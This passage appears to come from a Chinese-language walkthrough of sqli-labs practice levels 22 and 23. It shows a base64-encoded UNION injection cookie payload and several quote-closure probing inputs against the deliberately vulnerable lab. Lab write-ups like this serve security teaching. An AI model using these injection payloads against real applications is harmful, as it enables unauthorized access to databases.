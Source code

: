 ## Less-22   （双引号闭合base64加密处理的cookie注入）

**闭合方式改为双引号**，其他与21关一样

```sql
cookie: uname=LWFkbWluIiB1bmlvbiBzZWxlY3QgMSwyLGRhdGFiYXNlKCkj
```

![img](assets/1666774740232-0212efae-ddd8-445d-bb1c-e3d6112a9c2f.png)

## Less-23   （过滤注释的GET传参注入）

又回到了GET方式提交id参数，有什么新花样?

![img](assets/1666774837882-5d3618d0-02a5-4ad2-aee4-b1c683fbf931.png)

进行尝试：?id=1 正常     ?id=1'   返回报错   ?id=1'"返回报错

![img](assets/1666774968721-8b7a21d1-1026-49e1-84e7-f4b31833ff3a.png)

![img](assets/1666775145973-4e16d0bb-4c71-44e2-9ab5-44626bc49e76.png)

从返回获得闭合方式：参数值单引号（'）闭合，继续构造闭合探测：

```sql
?id=1' or 1=1#
?id=1' or 1=2#
?id=1' and 1=1#
?id=1' and 1=2#  统一都返回报错如下：
You have an error in your SQL syntax; check the manual that corresponds to
your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
更换#为%23或者-- 尝试，仍然如此，因此猜测后台对注释符进行了过滤
```
